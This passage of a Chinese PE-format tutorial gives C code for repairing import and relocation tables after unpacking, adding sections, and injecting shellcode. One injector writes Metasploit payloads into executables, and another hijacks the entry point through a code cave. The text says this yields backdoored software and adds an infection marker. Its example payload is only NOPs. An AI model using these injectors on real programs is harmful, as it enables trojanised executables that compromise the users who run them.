有时我们在脱壳时，由于`IAT`发生了变化，所以程序会无法被正常启动，我们`Dump`出来的文件由于使用的是内存地址，导入表不一致所以也就无法正常运行，可以使用原始的未脱壳的导入表地址对脱壳后的文件导入表进行覆盖替换，以此来修复导入表错误。

要实现这段代码，读者可依次读入脱壳前与脱壳后的两个文件，通过循环的方式将脱壳前的导入表地址覆盖到脱壳后的程序中，以此来实现对导入表的修复功能，如下代码`BuildIat`则是笔者封装首先的一个修复程序，读者可自行体会其中的原理；

```C
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>
#include <ImageHlp.h>
#pragma comment(lib,"Dbghelp")

DWORD RvaToFoa(PIMAGE_NT_HEADERS pImgNtHdr, LPVOID lpBase, DWORD dwRva)
{
  PIMAGE_SECTION_HEADER pImgSecHdr;
  pImgSecHdr = ImageRvaToSection(pImgNtHdr, lpBase, dwRva);
  return dwRva - pImgSecHdr->VirtualAddress + pImgSecHdr->PointerToRawData;
}

void BuildIat(char *pSrc, char *pDest)
{
  PIMAGE_DOS_HEADER pSrcImgDosHdr, pDestImgDosHdr;
  PIMAGE_NT_HEADERS pSrcImgNtHdr, pDestImgNtHdr;
  PIMAGE_SECTION_HEADER pSrcImgSecHdr, pDestImgSecHdr;
  PIMAGE_IMPORT_DESCRIPTOR pSrcImpDesc, pDestImpDesc;

  HANDLE hSrcFile, hDestFile;
  HANDLE hSrcMap, hDestMap;
  LPVOID lpSrcBase, lpDestBase;

  // 打开源文件与目标文件
  hSrcFile = CreateFile(pSrc, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hSrcFile == INVALID_HANDLE_VALUE)
    return;
  hDestFile = CreateFile(pDest, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hDestFile == INVALID_HANDLE_VALUE)
    return;

  // 分别创建两份磁盘映射
  hSrcMap = CreateFileMapping(hSrcFile, NULL, PAGE_READONLY, 0, 0, 0);
  hDestMap = CreateFileMapping(hDestFile, NULL, PAGE_READWRITE, 0, 0, 0);

  // MapViewOfFile 设置到指定位置
  lpSrcBase = MapViewOfFile(hSrcMap, FILE_MAP_READ, 0, 0, 0);
  lpDestBase = MapViewOfFile(hDestMap, FILE_MAP_WRITE, 0, 0, 0);

  pSrcImgDosHdr = (PIMAGE_DOS_HEADER)lpSrcBase;
  pDestImgDosHdr = (PIMAGE_DOS_HEADER)lpDestBase;
  printf("[+] 原DOS头: 0x%08X --> 目标DOS头: 0x%08X \n", pSrcImgDosHdr, pDestImgDosHdr);

  pSrcImgNtHdr = (PIMAGE_NT_HEADERS)((DWORD)lpSrcBase + pSrcImgDosHdr->e_lfanew);
  pDestImgNtHdr = (PIMAGE_NT_HEADERS)((DWORD)lpDestBase + pDestImgDosHdr->e_lfanew);
  printf("[+] 原NT头: 0x%08X --> 目标NT头: 0x%08X \n", pSrcImgNtHdr, pDestImgNtHdr);

  pSrcImgSecHdr = (PIMAGE_SECTION_HEADER)((DWORD)&pSrcImgNtHdr->OptionalHeader + pSrcImgNtHdr->FileHeader.SizeOfOptionalHeader);
  pDestImgSecHdr = (PIMAGE_SECTION_HEADER)((DWORD)&pDestImgNtHdr->OptionalHeader + pDestImgNtHdr->FileHeader.SizeOfOptionalHeader);
  printf("[+] 原节表头: 0x%08X --> 目标节表头: 0x%08X \n", pSrcImgSecHdr, pDestImgSecHdr);

  DWORD dwImpSrcAddr, dwImpDestAddr;
  dwImpSrcAddr = pSrcImgNtHdr->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
  dwImpDestAddr = pDestImgNtHdr->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
  printf("[-] 原始IAT虚拟地址: 0x%08X --> 目标IAT虚拟地址: 0x%08X \n", dwImpSrcAddr, dwImpDestAddr);

  dwImpSrcAddr = (DWORD)lpSrcBase + RvaToFoa(pSrcImgNtHdr, lpSrcBase, dwImpSrcAddr);
  dwImpDestAddr = (DWORD)lpDestBase + RvaToFoa(pDestImgNtHdr, lpDestBase, dwImpDestAddr);
  printf("[+] 导入表原始偏移: 0x%08X --> 导入表目的偏移: 0x%08X \n", dwImpSrcAddr, dwImpDestAddr);

  // 定位导入表
  pSrcImpDesc = (PIMAGE_IMPORT_DESCRIPTOR)dwImpSrcAddr;
  pDestImpDesc = (PIMAGE_IMPORT_DESCRIPTOR)dwImpDestAddr;
  printf("[*] 定位原始导入表地址: 0x%08X --> 定位目的导入表地址: 0x%08X \n\n\n", pSrcImpDesc, pDestImpDesc);

  PIMAGE_THUNK_DATA pSrcImgThkDt, pDestImgThkDt;

  // 循环遍历导入表，条件是两者都不为空
  while (pSrcImpDesc->Name && pDestImpDesc->Name)
  {
    char *pSrcImpName = (char*)((DWORD)lpSrcBase + RvaToFoa(pSrcImgNtHdr, lpSrcBase, pSrcImpDesc->Name));
    char *pDestImpName = (char*)((DWORD)lpDestBase + RvaToFoa(pDestImgNtHdr, lpDestBase, pDestImpDesc->Name));

    pSrcImgThkDt = (PIMAGE_THUNK_DATA)((DWORD)lpSrcBase + RvaToFoa(pSrcImgNtHdr, lpSrcBase, pSrcImpDesc->FirstThunk));
    pDestImgThkDt = (PIMAGE_THUNK_DATA)((DWORD)lpDestBase + RvaToFoa(pDestImgNtHdr, lpDestBase, pDestImpDesc->FirstThunk));
    printf("\n [*] 链接库: %10s 原始偏移: 0x%08X --> 修正偏移: 0x%08X \n\n", pDestImpName, *pDestImgThkDt, *pSrcImgThkDt);

    // 开始赋值,将原始的IAT表中索引赋值给目标地址
    while (*((DWORD *)pSrcImgThkDt) && *((DWORD *)pDestImgThkDt))
    {
      DWORD dwIatAddr = *((DWORD *)pSrcImgThkDt);
      *((DWORD *)pDestImgThkDt) = dwIatAddr;
      printf("\t --> 源RVA: 0x%08X --> 拷贝地址: 0x%08X --> 修正为: 0x%08X \n", pSrcImgThkDt, pDestImgThkDt, dwIatAddr);
      pSrcImgThkDt++;
      pDestImgThkDt++;
    }
    pSrcImpDesc++;
    pDestImpDesc++;
  }
  UnmapViewOfFile(lpDestBase); UnmapViewOfFile(lpSrcBase);
  CloseHandle(hDestMap); CloseHandle(hSrcMap);
  CloseHandle(hDestFile); CloseHandle(hSrcFile);
}

void Banner()
{
  printf(" ____        _ _     _    ___    _  _____  \n");
  printf("| __ ) _   _(_) | __| |  |_ _|  / \\|_   _| \n");
  printf("|  _ \\| | | | | |/ _` |   | |  / _ \\ | |  \n");
  printf("| |_) | |_| | | | (_| |   | | / ___ \\| |  \n");
  printf("|____/ \\__,_|_|_|\\__,_|  |___/_/   \\_\\_|   \n");
  printf("                                           \n");
  printf("IAT 修正拷贝工具 By: LyShark \n");
  printf("Usage: BuildIat [脱壳前文件] [脱壳后文件] \n\n\n");
}

int main(int argc, char * argv[])
{
  Banner();
  if (argc == 3)
  {
    // 使用原始的IAT表覆盖dump出来的镜像
    BuildIat(argv[1], argv[2]);
  }
  return 0;
}
```

代码的使用很简单，分别传入脱壳前文件路径，以及脱壳后的路径，则读者可看到如下图所示的输出信息，至此即实现了脱壳修复功能。



### 2.10 重建重定位表

Relocation（重定位）是一种将程序中的一些地址修正为运行时可用的实际地址的机制。在程序编译过程中，由于程序中使用了各种全局变量和函数，这些变量和函数的地址还没有确定，因此它们的地址只能暂时使用一个相对地址。当程序被加载到内存中运行时，这些相对地址需要被修正为实际的绝对地址，这个过程就是重定位。

在Windows操作系统中，程序被加载到内存中运行时，需要将程序中的各种内存地址进行重定位，以使程序能够正确地运行。Windows系统使用PE（Portable Executable）文件格式来存储可执行程序，其中包括重定位信息。当程序被加载到内存中时，系统会解析这些重定位信息，并将程序中的各种内存地址进行重定位。

重定位表一般出现在`DLL`中，因为`DLL`都是动态加载，所以地址不固定，DLL的入口点在整个执行过程中至少要执行2次，一次是在开始时执行初始化工作，一次则是在结束时做最后的收尾工作，重定位表则是解决DLL的地址问题，为了能找到重定位表首先我们需要使用`PeView`工具查询`DataDirectory`数据目录表，在其中找到`Base relocation`字段，里面的`0x00001800`则是重定位表基地址；



我们通过使用`WinHex`工具定位到`0x00001800`即可看到重定位表信息，如下图中的`1000`代表的是重定位`RVA`地址，绿色的`0104`代表的则是重定位块的长度，后面则是每两个字节代表一个重定位块，0A是重定位地址，30则是重定位的类型，以此顺序向下排列。



重定位表也是分页排列的，每一页大小都是`1000`字节，通过使用`FixRelocPage`命令即可查询到当前程序中的重定位块信息，并以第一个为例，查询一下起始地址RVA为`1000`的页上，有哪些重定位结构，如下图所示；



其中的重定位`RVA`地址`0000100A`是用标黄色的`1000`加上标蓝色的`0xA`得到的。而修正RVA地址`00003000`加上模块基地址`63FF0000+3000`得到的则是第一个被修正的内存地址，读者可使用`x64dbg`跳转到该程序内自行确认。

重定位表的修复原理与IAT修复完全一致，我们需要分别读入脱壳前与脱壳后的两个程序，接着通过循环正确的重定位表信息，并依次覆盖到脱壳后的程序内，以此实现对重定位表的修复功能，实现代码如下所示；

```C
#include <windows.h>
#include <stdio.h>

struct TypeOffset
{
  WORD Offset : 12;       // 低12位代表重定位地址
  WORD Type : 4;          // 高4位代表重定位类型
};

DWORD FileSize = 0;  // 定义文件大小
DWORD FileBase = 0;  // 保存文件的基地址

// 定义全局变量,来存储DOS,NT,Section头
PIMAGE_DOS_HEADER DosHeader = nullptr;
PIMAGE_NT_HEADERS NtHeader = nullptr;
PIMAGE_FILE_HEADER FileHead = nullptr;

// 将RVA转换为FOA的函数
DWORD RVAtoFOA(DWORD rva)
{
  auto SectionTables = IMAGE_FIRST_SECTION(NtHeader);    // 获取区段表
  WORD Count = NtHeader->FileHeader.NumberOfSections;    // 获取区段数量

  for (int i = 0; i < Count; ++i)
  {
    // 判断是否存在于区段中
    DWORD Section_Start = SectionTables[i].VirtualAddress;
    DWORD Section_Ends = SectionTables[i].VirtualAddress + SectionTables[i].SizeOfRawData;
    if (rva >= Section_Start && rva < Section_Ends)
    {
      // 找到之后计算位置并返回值
      return rva - SectionTables[i].VirtualAddress + SectionTables[i].PointerToRawData;
    }
  }
  return -1;
}

// 打开PE文件
bool OpenPeFile(LPCSTR FileName)
{
  // 打开文件
  HANDLE Handle = CreateFileA(FileName, GENERIC_READ, NULL,NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (Handle == INVALID_HANDLE_VALUE)
    return false;

  // 获取文件大小
  FileSize = GetFileSize(Handle, NULL);

  // 读取文件数据
  DWORD OperSize = 0;
  FileBase = (DWORD)new BYTE[FileSize];
  ReadFile(Handle, (LPVOID)FileBase, FileSize, &OperSize, NULL);

  // 获取DOS头并判断是不是一个有效的DOS文件
  DosHeader = (PIMAGE_DOS_HEADER)FileBase;
  if (DosHeader->e_magic != IMAGE_DOS_SIGNATURE)
    return false;

  // 获取 NT 头并判断是不是一个有效的PE文件
  NtHeader = (PIMAGE_NT_HEADERS)(FileBase + DosHeader->e_lfanew);
  if (NtHeader->Signature != IMAGE_NT_SIGNATURE)
    return false;

  // 判断是不是一个32位文件
  if (NtHeader->OptionalHeader.Magic != 0x010B)
    return false;
  
  CloseHandle(Handle);
  return true;
}

// 修复重定位表
void RepairFixReloc(char new_file[])
{
  DWORD base = NtHeader->OptionalHeader.ImageBase;
  // 1. 获取重定位表的 rva
  DWORD RelocRVA = NtHeader->OptionalHeader.DataDirectory[5].VirtualAddress;
  // 2. 获取重定位表
  auto Reloc = (PIMAGE_BASE_RELOCATION)(FileBase + RVAtoFOA(RelocRVA));

  // 3. 遍历重定位表中的重定位块，以0结尾
  while (Reloc->SizeOfBlock != 0)
  {
    // 3.1 输出分页基址
    printf("[↓] 分页基址: 0x%08X \n\n", Reloc->VirtualAddress);
    // 3.2 找到重定位项
    auto Offset = (TypeOffset*)(Reloc + 1);

    // 3.3 计算重定位项的个数
    // Reloc->SizeOfBlock 保存的是整个重定位块的大小 结构体 + 重定位项数组
    // Reloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION) 得到单个数组大小
    // 上面的结果 \ 2 = 重定位项的个数，原因是重定位项的大小为两个字节
    DWORD Size = (Reloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / 2;

    // 3.4 遍历所有的重定位项
    for (DWORD i = 0; i < Size; ++i)
    {
      DWORD Type = Offset[i].Type;                  // 获取重定位类型，只关心为3的类型
      DWORD pianyi = Offset[i].Offset;              // 获取重定位的偏移值
      DWORD rva = pianyi + Reloc->VirtualAddress;   // 获取要重定位的地址所在的RVA
      DWORD foa = RVAtoFOA(rva);                    // 获取要重定位的地址所在的FOA
      DWORD fa = foa + FileBase;                    // 获取要重定位的地址所在的fa
      DWORD addr = *(DWORD*)fa;                     // 获取要重定位的地址
      DWORD new_addr = addr - base + 0x1500000;     // 计算重定位后的数据: addr - oldbase + newbase

      // 将重定位后的数据写回缓冲区(文件)
      if (Offset[i].Type == 3)
        *(DWORD*)fa = new_addr;

      printf("\t [->] 重定位RVA: 0x%08X | 重定位FOA: 0x%08X | 重定位地址: 0x%08X | 修正地址: 0x%08X \n", rva, foa, addr, new_addr);
    }
    // 找到下一个重定位块
    Reloc = (PIMAGE_BASE_RELOCATION)((DWORD)Reloc + Reloc->SizeOfBlock);
  }
  // 保存修正后的文件
  NtHeader->OptionalHeader.ImageBase = 0x1500000;

  // 打开一个新文件
  HANDLE new_handle = CreateFileA(new_file, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (new_handle == INVALID_HANDLE_VALUE)
    return;

  DWORD OperSize = 0;
  // 保存修正好的程序
  BOOL ret = WriteFile(new_handle, (LPVOID)FileBase, FileSize, &OperSize, NULL);
  if (ret == TRUE)
  {
    printf("\n\n");
    CloseHandle(new_handle);

    printf("[*] 修复 %s 文件 \t 写入基址: %08X \t 总长度: %d \t 写入长度: %d \n", new_file, FileBase, FileSize, OperSize);
  }
}

void Banner()
{
  printf(" ____        _ _     _   ____      _            \n");
  printf("| __ ) _   _(_) | __| | |  _ \\ ___| | ___   ___ \n");
  printf("|  _ \\| | | | | |/ _` | | |_) / _ \\ |/ _ \\ / __|\n");
  printf("| |_) | |_| | | | (_| | |  _ <  __/ | (_) | (__ \n");
  printf("|____/ \\__,_|_|_|\\__,_| |_| \\_\\___|_|\\___/ \\___|\n");
  printf("                                                \n");
  printf("Reloc 重定位表快速修复工具 \t By: LyShark \n");
  printf("Usage: BuildFix [原文件位置] [修复后文件位置] \n\n\n");
}

int main(int argc, char* argv[])
{
  Banner();
  if (argc == 3)
  {
    bool flag = OpenPeFile(argv[1]);
    if (true == flag)
    {
      RepairFixReloc(argv[2]);
    }
  }
  return 0;
}
```

运行上述程序，读者可自行传入脱壳前的程序与脱壳后的程序，此时则会实现自动替换，如下图所示；



### 2.11 添加新的节区

在可执行PE文件中，节（section）是文件的组成部分之一，用于存储特定类型的数据。每个节都具有特定的作用和属性，通常来说一个正常的程序在被编译器创建后会生成一些固定的节，通过将数据组织在不同的节中，可执行文件可以更好地管理和区分不同类型的数据，并为运行时提供必要的信息和功能。节的作用是对可执行文件进行有效的分段和管理，以便操作系统和加载器可以正确加载和执行程序。

可执行文件常用的节包括了：

|  节名  | 作用       | 功能说明                                                     | 权限       |
| :----: | ---------- | ------------------------------------------------------------ | ---------- |
| .text  | 代码节     | 包含可执行代码，例如程序的指令和函数体                       | 执行和读取 |
| .data  | 数据节     | 包含程序的全局和静态变量的初始化数据。                       | 读取和写入 |
| .rdata | 只读数据节 | 包含只读的静态数据，如常量字符串和只读的全局变量。           | 只读       |
| .idata | 导入表节   | 包含程序所依赖的外部函数和符号的引用信息，用于动态链接。     | 读取和写入 |
| .edata | 导出表节   | 包含程序导出的函数和符号的信息，用于供其他程序或模块使用。   | 读取       |
| .rsrc  | 资源节     | 包含程序所使用的资源数据，如图标、位图、字符串等。           | 读取       |
| .reloc | 重定位节   | 包含程序的重定位信息，用于在加载时修正代码和数据的内存地址。 | 读取和写入 |

当然了并不是每一个标准的`PE`文件都具备这些节，某些程序可能会使用特殊的`PE`编辑工具新增一些特殊的节，或者当程序被加密压缩后该程序的节区也会发生不同的变化，对于新增节来说需要具备如下几个关键步骤：

 - 计算新节的偏移量和大小：确定要添加的新节的偏移量和大小。偏移量是新节在文件中的位置，大小是新节的长度。
 - 更新PE文件头：修改PE文件头中的相关字段，更新文件头中的`NumberOfSections`字段和`SizeOfImage`字段。
 - 创建新节：在PE文件末尾添加新的节表项，并填充新节的各个字段，例如名称、虚拟大小、文件大小、内存对齐等。

对于操作PE文件来说，在头文件中需要引入`ImageHlp.h`并且包含`#pragma comment(lib,"Imagehlp.lib")`库，该库提供了用于处理PE文件的函数和结构体，是`Image Help Library`库的一部分，读者可自行在项目内引入这个库。

当引入后我们来实现第一个功能，为可执行文件分配空间，如下`AllocateSpace`函数，该函数通过使用`CreateFileA`打开一个文件，并调用`SetFilePointer`将文件指针移动到`FILE_END`文件末尾处，接着通过循环的方式`WriteFile`填充开辟空间。

```c
// 计算取整
DWORD AlignSize(int nSecSize, DWORD Alignment)
{
  int nSize = nSecSize;
  if (nSize %Alignment != 0)
  {
    nSecSize = (nSize / Alignment + 1) * Alignment;
  }
  return nSecSize;
}

// 为可执行文件分配空间
DWORD AllocateSpace(char *FileName, int FileSize)
{
  HANDLE hFile = CreateFileA(FileName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_WRITE |
    FILE_SHARE_READ, NULL, OPEN_ALWAYS, NULL, NULL);

  DWORD ret = SetFilePointer(hFile, 0, 0, FILE_END);
  if (ret != NULL)
  {
    for (int x = 0; x < FileSize; x++)
    {
      WriteFile(hFile, "", 1, 0, 0);
    }
    CloseHandle(hFile);
  }
  return ret;
}
```

上述程序的使用方法很简单，通过`AllocateSpace("d://lyshark.exe",4096)`传入两个参数，分别是需要开辟空间的进程，以及开辟空间的长度，该长度可以与节区内的大小保持一致，当程序执行后则返回开辟位置，读者可使用`WinHex`工具跳转到程序末尾自行查看，如下图所示；



接着我们来实现添加节区功能，如下代码`ImplantSection`则可实现增加新节功能，该函数传入三个参数，分别是可执行文件地址，节区名称，以及节区长度，程序中通过映射方式打开文件，分别寻找到当前节表首地址，以及节的数量，通过复制一个节，并对该节内存参数进行更新（节内存大小，节文件大小，节内存属性）等，当这些数据被更正后，则加下来就是保存文件，并返回`pTmpSec->PointerToRawData`节所在文件地址。

```c
// 计算取整
DWORD AlignSize(int nSecSize, DWORD Alignment)
{
  int nSize = nSecSize;
  if (nSize %Alignment != 0)
  {
    nSecSize = (nSize / Alignment + 1) * Alignment;
  }
  return nSecSize;
}

// 添加新的节区 szFileName = 打开exe文件 szSecName = 节名称 nSecSize = 节大小
DWORD ImplantSection(LPSTR szFileName, char szSecName[8], int nSecSize)
{
  HANDLE m_hFile = CreateFileA(szFileName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ,
    NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

  HANDLE m_hMap = CreateFileMapping(m_hFile, NULL, PAGE_READWRITE, 0, 0, 0);
  HANDLE m_lpBase = MapViewOfFile(m_hMap, FILE_MAP_READ | FILE_SHARE_WRITE, 0, 0, 0);

  // ------------------------------------------------------------------------
  // 定位到DOS/NT头部
  // ------------------------------------------------------------------------
  // 定位DOS头
  PIMAGE_DOS_HEADER m_pDosHdr = (PIMAGE_DOS_HEADER)m_lpBase;
  printf("[-] 当前DOS头: 0x%08X \n", m_pDosHdr);
  // 定位NT头
  PIMAGE_NT_HEADERS m_pNtHdr = (PIMAGE_NT_HEADERS)((DWORD)m_lpBase + m_pDosHdr->e_lfanew);
  printf("[-] 当前NT头: 0x%08X \n", m_pNtHdr);
  // 定位节表首地址
  PIMAGE_SECTION_HEADER m_pSecHdr = (PIMAGE_SECTION_HEADER)((DWORD)&(m_pNtHdr->OptionalHeader) +
    m_pNtHdr->FileHeader.SizeOfOptionalHeader);
  printf("[-] 定位当前节表首地址: 0x%08X \n", m_pSecHdr);
  // 定位节区数量
  int nSecNum = m_pNtHdr->FileHeader.NumberOfSections;
  DWORD dwFileAlignment = m_pNtHdr->OptionalHeader.FileAlignment;
  DWORD dwSecAlignment = m_pNtHdr->OptionalHeader.SectionAlignment;
  PIMAGE_SECTION_HEADER pTmpSec = m_pSecHdr + nSecNum;

  // 复制节名
  strncpy((char *)pTmpSec->Name, szSecName, 7);
  printf("[+] 拷贝节名称: %s \n", szSecName);

  // ------------------------------------------------------------------------
  // 节的内存大小
  // ------------------------------------------------------------------------
  pTmpSec->Misc.VirtualSize = AlignSize(nSecSize, dwSecAlignment);
  printf("[+] 节表内存大小: %d \n", nSecSize);
  // 节的内存起始位置
  pTmpSec->VirtualAddress = m_pSecHdr[nSecNum - 1].VirtualAddress +
    AlignSize(m_pSecHdr[nSecNum - 1].Misc.VirtualSize, dwSecAlignment);
  printf("[+] 节内存起始位置: 0x%08X \n", pTmpSec->VirtualAddress);

  // ------------------------------------------------------------------------
  // 节的文件大小
  // ------------------------------------------------------------------------
  pTmpSec->SizeOfRawData = AlignSize(nSecSize, dwFileAlignment);
  printf("[-] 节的文件大小: %d \n", pTmpSec->SizeOfRawData);

  // 节的文件起始位置,这里直接在文件末尾分配空间
  pTmpSec->PointerToRawData = SetFilePointer(m_hFile, 0, 0, FILE_END);
  printf("[-] 节的文件起始位置: 0x%08X \n", pTmpSec->PointerToRawData);
  // 这里开始循环在文件末尾分配nSecSize存储空间
  for (int x = 0; x < nSecSize; x++)
    WriteFile(m_hFile, "", 1, 0, 0);

  // ------------------------------------------------------------------------
  // 节访问属性,设置内存属性为可读可执行代码段
  // ------------------------------------------------------------------------
  pTmpSec->Characteristics = 0xE0000020;
  // 修正节区数量
  m_pNtHdr->FileHeader.NumberOfSections++;
  // 修正映像大小
  m_pNtHdr->OptionalHeader.SizeOfImage += pTmpSec->Misc.VirtualSize;
  FlushViewOfFile(m_lpBase, 0);
  
  return pTmpSec->PointerToRawData;
}
```

读者可自行调用上述函数，通过`ImplantSection("d://Win32Project.exe", ".hack", 4096)`传值，此时分别传入参数为需要修改的文件名，需要增加的节名称，以及创建节长度，在运行后读者可自行观察是否创建成功，如下图所示；



### 2.12 实现字节注入

字节注入功能可以调用`WritePEShellCode`函数，该函数的主要作用是接受用户传入的一个文件位置，并可以将一段通过`Metasploit`工具生成的有效载荷注入到特定文件偏移位置处，读者在使用该函数之前需要通过`WinHex`找到注入位置，我们以如下截图中的`30352`为例；



接着读者需要自行准备一段`ShellCode`代码，只保留代码部分去掉头部变量参数，如下所示；



接着我们使用如下这段代码中的`WritePEShellCode`函数，通过传入指定PE文件路径，指定文件便宜，以及指定的`ShellCode`文件路径，即可自动将其压缩为一行并在压缩后将代码写出到指定的可执行文件内。

```c
// 将ShellCode写出到PE程序的特定位置
// 参数1: 指定PE路径 参数2: 指定文件中的偏移(十进制) 参数3: 指定ShellCode文件
void WritePEShellCode(const char* FilePath, long FileOffset, const char* ShellCode)
{
  HANDLE hFile = NULL;
  FILE* fpointer = NULL;
  DWORD dwNum = 0;

  int count = 0;
  char shellcode[8192] = { 0 };
  unsigned char save[8192] = { 0 };

  // 打开一段ShellCode代码并处理为一行
  if ((fpointer = fopen(ShellCode, "r")) != NULL)
  {
    char ch = 0;
    for (int x = 0; (ch = fgetc(fpointer)) != EOF;)
    {
      if (ch != L'\n' && ch != L'\"' && ch != L'\\' && ch != L'x' && ch != L';')
      {
        shellcode[x++] = ch;
        count++;
      }
    }
  }
  _fcloseall();

  // 将单字节合并为双字节
  for (int x = 0; x < count / 2; x++)
  {
    unsigned int char_in_hex;
    if (shellcode[x] != 0)
    {
      sscanf(shellcode + 2 * x, "%02X", &char_in_hex);

      // 每十六字节换一行输出
      if ((x+1) % 16 == 0)
      {
        printf("0x%02X \n", char_in_hex);
      }
      else
      {
        printf("0x%02X ", char_in_hex);
      }
      save[x] = char_in_hex;
    }
  }

  // 打开PE文件并写出ShellCode到指定位置
  hFile = CreateFile(FilePath, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (INVALID_HANDLE_VALUE != hFile)
  {
    SetFilePointer(hFile, FileOffset, NULL, FILE_BEGIN);
    bool ref = WriteFile(hFile, save, count/2 , &dwNum, NULL);
    if (true == ref)
    {
      printf("\n\n[*] 已注入 ShellCode 到PE文件 \n[+] 注入起始FOA => 0x%08X \n",FileOffset);
    }
    CloseHandle(hFile);
  }
}
```

我们通过传入`WritePEShellCode("d://lyshark.exe", 30352, "d://shellcode.txt");`参数，运行后则可将特定文本中的机器码注入到`30352`的位置处，读者也可以通过使用`WinHex`跳转到对应位置观察，如下所示；



当然了上述方法注入到`PE`文件中我们需要手动分析寻找空余块，并在注入成功后还需要自行修正`PE`文件内的入口地址等，这种方式适合于对`PE`结构非常熟悉的人可以，但也要花费一些精力去寻找分析，如下代码则是实现了自动化注入功能，该代码中`FindSpace()`函数用于从代码节的末尾开始搜索，寻找特定长度的空余位置，当找到合适的缝隙后便返回缝隙首地址。

此时`dwOep`变量内存储的是该程序原始的`OEP`入口位置，接着将入口地址赋值到`*(DWORD *)&shellcode[5]`也就是放入到`shellcode`机器码的第六个位置处，此处将变更为跳转到原始入口的指令集，接着调用`memcpy`函数将`shellcode`代码拷贝到新分配的`dwAddr`内存中，此处的`strlen(shellcode) + 3`代表的是`ShellCode`中剩余的`\xff\xe0\x00`部分，最后将当前`EIP`指针设置为我们自己的`ShellCode`所在位置，通过`pNtHeader->OptionalHeader.AddressOfEntryPoint`赋值设置此变量，至此这个注入器就算实现啦。

```c
#include <stdio.h>
#include <stddef.h>
#include <windows.h>

// \xb8\x90\x90\x90\x90 => mov eax,90909090
// \xff\xe0\x00 => jmp eax
char shellcode[] = "\x90\x90\x90\x90\xb8\x90\x90\x90\x90\xff\xe0\x00";

// 缝隙的搜索从代码节的末尾开始搜索,有利于快速搜索到缝隙
DWORD FindSpace(LPVOID lpBase, PIMAGE_NT_HEADERS pNtHeader)
{
  // 跳过可选头长度的数据
  PIMAGE_SECTION_HEADER pSec = (PIMAGE_SECTION_HEADER)
    (((BYTE *)&(pNtHeader->OptionalHeader) + pNtHeader->FileHeader.SizeOfOptionalHeader));

  // 获取到文件末尾的位置
  DWORD dwAddr = pSec->PointerToRawData + pSec->SizeOfRawData - sizeof(shellcode);
  dwAddr = (DWORD)(BYTE *)lpBase + dwAddr;

  LPVOID lp = malloc(sizeof(shellcode));
  memset(lp, 0, sizeof(shellcode));

  while (dwAddr > pSec->Misc.VirtualSize)
  {
    int nRet = memcmp((LPVOID)dwAddr, lp, sizeof(shellcode));
    if (nRet == 0)
      return dwAddr;
    dwAddr--;
  }
  free(lp);
  return 0;
}

int main(int argc, char* argv[])
{
  HANDLE hFile, hMap = NULL;
  LPVOID lpBase = NULL;

  hFile = CreateFile(L"d://lyshark.exe", GENERIC_READ | GENERIC_WRITE,
    FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
  hMap = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, 0, 0);
  lpBase = MapViewOfFile(hMap, FILE_MAP_READ | FILE_MAP_WRITE, 0, 0, 0);

  PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)lpBase;
  PIMAGE_NT_HEADERS pNtHeader = NULL;
  PIMAGE_SECTION_HEADER pSec = NULL;
  IMAGE_SECTION_HEADER imgSec = { 0 };

  if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
  {
    printf("[-] 文件非可执行文件 \n");
    return -1;
  }
  pNtHeader = (PIMAGE_NT_HEADERS)((BYTE*)lpBase + pDosHeader->e_lfanew);

  // 查找空余字节
  DWORD dwAddr = FindSpace(lpBase, pNtHeader);
  printf("[*] 找到 %d 字节 | 起始地址: %X \n", sizeof(shellcode), dwAddr);

  // 获取到原入口地址
  DWORD dwOep = pNtHeader->OptionalHeader.ImageBase + pNtHeader->OptionalHeader.AddressOfEntryPoint;

  // \xb8 => 填充的就是原始程序的OEP
  *(DWORD *)&shellcode[5] = dwOep;
  printf("[-] 原始入口地址: 0x%08X \n", dwOep);

  // 将shellcode 拷贝到dwAddr内存空间里,拷贝长度strlen(shellcode) + 3
  memcpy((char *)dwAddr, shellcode, strlen(shellcode) + 3);
  dwAddr = dwAddr - (DWORD)(BYTE *)lpBase;
  printf("[-] 拷贝内存长度: 0x%08X \n", dwAddr);

  // 将新的入口地址,赋值给原始程序的地址上
  pNtHeader->OptionalHeader.AddressOfEntryPoint = dwAddr;
  printf("[+] 修正新入口地址: 0x%08X \n", pNtHeader->OptionalHeader.ImageBase + dwAddr);

  UnmapViewOfFile(lpBase);
  CloseHandle(hMap);
  CloseHandle(hFile);

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码，当运行结束后会将`ShellCode`全局变量中的指令集，写入到`lyshark.exe`程序内，并修正当前程序的`OEP`入口处，此时读者可运行`lyshark.exe`程序，看是否能够正常执行起来，如下图所示；



此时读者可自行打开`x64dbg`调试器，观察此时的程序入口处已经变成了`0x47BFF3`执行到最后则通过`jmp eax`跳转到了原始的程序入口处继续执行，这也就是空字节注入的功能，当读者自己将`nop`指令替换为任意特殊的汇编指令时，也就实现了一款植入后门版本的软件。



当我们对特定的程序插入后门后，则还需要对该程序增加一个标志，在PE结构中有许多地方可以写入这个标志，例如`DOS`头部存在一个`e_cblp`变量，通过向该变量写入一个标志，当需要判断是否被感染时读取此处并检查是否存在特定值即可，如下代码则是一个检查实现方式。

```c
#include <stdio.h>
#include <stddef.h>
#include <windows.h>

